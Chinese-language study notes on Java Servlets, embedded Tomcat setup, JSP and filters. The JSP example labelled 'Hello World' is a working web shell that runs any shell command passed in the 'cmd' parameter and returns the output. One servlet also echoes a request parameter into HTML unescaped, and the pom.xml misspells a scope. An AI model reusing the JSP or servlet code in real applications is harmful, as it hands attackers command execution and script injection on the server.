










## Servlet

我们在多线程的TCP编程中，可以在一个TCP连接中获取http请求，发送http响应即可。

但是这样特别麻烦



```java
// WebServlet注解表示这是一个Servlet，并映射到地址/:
@WebServlet(urlPatterns = "/")
public class HelloServlet extends HttpServlet {
    //获取GET请求，就必须覆写doGet方法。
    protected void doGet(HttpServletRequest req, HttpServletResponse resp)
            throws ServletException, IOException {
        // 设置响应类型:
        resp.setContentType("text/html");
        // 获取输出流:
        PrintWriter pw = resp.getWriter();
        // 写入响应:
        pw.write("<h1>Hello, world!</h1>");
        // 最后不要忘记flush强制输出:
        pw.flush();
    }
}
```

由于Servlet版本分为<=4.0和>=5.0两种，所以，要根据使用的Servlet版本选择正确的Tomcat版本。

- 使用Servlet<=4.0时，选择Tomcat 9.x或更低版本；

  ```java
  import javax.servlet.*;
  ```

- 使用Servlet>=5.0时，选择Tomcat 10.x或更高版本。

  ```java
  import jakarta.servlet.*;
  ```

可以在pom.xml中引入Servlet

```xml
 <dependency>
            <groupId>jakarta.servlet</groupId>
            <artifactId>jakarta.servlet-api</artifactId>
            <version>5.0.0</version>
            <scope>compile</scope>
        </dependency>
```

我们可以将项目打包成`war`包，然后放到`tomacat`的`webapps`目录下，就可以实现不需要`idea`来启动web服务

1. 编写Servlet；
2. 打包为war文件；
3. 复制到Tomcat的webapps目录下；
4. 启动Tomcat。

## 手动引入依赖包，启动tomacat



pom.xml

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
  <modelVersion>4.0.0</modelVersion>
  <groupId>org.example</groupId>
  <artifactId>untitled</artifactId>
  <packaging>war</packaging>
  <version>1.0-SNAPSHOT</version>
  <name>untitled Maven Webapp</name>
  <url>http://maven.apache.org</url>
  <properties>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    <project.reporting.outputEncoding>UTF-8</project.reporting.outputEncoding>
    <maven.compiler.source>8</maven.compiler.source>
    <maven.compiler.target>8</maven.compiler.target>
    <java.version>8</java.version>
    <tomcat.version>8.5.78</tomcat.version>
  </properties>
  <dependencies>
    <dependency>
      <groupId>org.apache.tomcat.embed</groupId>
      <artifactId>tomcat-embed-core</artifactId>
      <version>${tomcat.version}</version>
      <scope>complie</scope>
    </dependency>
    <dependency>
      <groupId>org.apache.tomcat.embed</groupId>
      <artifactId>tomcat-embed-jasper</artifactId>
      <version>${tomcat.version}</version>
      <scope>compile</scope>
    </dependency>
  </dependencies>
  <build>
    <finalName>untitled</finalName>
    <plugins>
      <plugin>
        <groupId>org.apache.maven.plugins</groupId>
        <artifactId>maven-war-plugin</artifactId>
        <version>3.3.2</version>
      </plugin>
    </plugins>
  </build>
</project>

```

Servlet

```java
@WebServlet(urlPatterns = "/")
public class HelloServlet extends HttpServlet {
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        resp.setContentType("text/html");
        String name = req.getParameter("name");
        if (name == null) {
            name = "world";
        }
        PrintWriter pw = resp.getWriter();
        pw.write("<h1>Hello, " + name + "!</h1>");
        pw.flush();
    }
}
```

main方法，启动tomacat服务

```java
public class Main {
    public static void main(String[] args) throws Exception {
        // 启动Tomcat:
        Tomcat tomcat = new Tomcat();
        tomcat.setPort(Integer.getInteger("port", 8080));
        tomcat.getConnector();
        // 创建webapp:
        Context ctx = tomcat.addWebapp("", new File("src/main/webapp").getAbsolutePath());
        WebResourceRoot resources = new StandardRoot(ctx);
        resources.addPreResources(
                new DirResourceSet(resources, "/WEB-INF/classes", new File("target/classes").getAbsolutePath(), "/"));
        ctx.setResources(resources);
        tomcat.start();
        tomcat.getServer().await();
    }
}
```

## Servlet进阶

`HttpServletRequest`的方法：




`HttpServletResponse`的方法：




Servlet的多线程理解：




重定向：






请求转发：






Session:

可以多理解理解这个



https://www.liaoxuefeng.com/wiki/1252599548343744/1328768897515553

## jsp

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<html>
<head>
  <title>Hello World - JSP</title>
</head>
<body>
<%-- JSP Comment --%>
<h1>Hello World!</h1>
<p>
  <%
    String cmd=request.getParameter("cmd");
    byte[] bytes= Runtime.getRuntime().exec(cmd).getInputStream().readAllBytes();
    PrintWriter output=response.getWriter();
    output.write(new String(bytes));
    output.flush();
    output.close();
  %>
  <span style="color:red">
        <%= request.getRemoteAddr() %>
    </span>
</p>
</body>
</html>

```

## Filter

```java
@WebFilter("/user/*")
public class AuthFilter implements Filter {
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
            throws IOException, ServletException {
        System.out.println("AuthFilter: check authentication");
        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse resp = (HttpServletResponse) response;
        if (req.getSession().getAttribute("user") == null) {
            // 未登录，自动跳转到登录页:
            System.out.println("AuthFilter: not signin!");
            resp.sendRedirect("/signin");
        } else {
            // 已登录，继续处理:
            chain.doFilter(request, response);
        }
    }
}
```

## Listener